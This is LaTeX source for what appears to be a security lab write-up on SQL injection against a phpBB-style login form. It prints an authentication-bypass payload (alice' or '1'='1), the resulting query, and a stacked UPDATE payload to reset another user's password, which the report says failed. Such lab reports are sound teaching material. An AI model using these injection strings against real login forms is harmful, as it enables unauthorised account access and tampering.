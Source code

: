 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
We were able to login to Alice's account without knowing her password by inputing the following
text into login input box: \texttt{alice' or '1'='1}.\\
\includegraphics[width=.95\textwidth]{gfx/sql/login.png}\\ On the server side when this is applied
to PHP code to form the SQL query, the query is changed into:

\lstset{
  captionpos=b,
  frame=single,
  language=SQL,
  breaklines=true,
  label=sql1
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level,
user_login_tries, user_last_login_try
FROM USERS_TABLE
WHERE username = ’alice’ OR 1' = ’1’ AND user_password = ’md5($password)’;
\end{lstlisting}

This query successfully creates a new session for a user without the knowledge about the password.

We tried injecting an update query too by inputing into the query
\texttt{bob'; UPDATE phpbb\_users SET user\_password = 'foo' WHERE username ='bob' OR 1='1} 
that was to change user `bob''s password to `foo'.  

However, because MySQL prevents query stacking when using \texttt{mysql\_query} method, we saw the following error:

\includegraphics[width=.95\textwidth]{gfx/sql/updateerr.png}
\end{document}
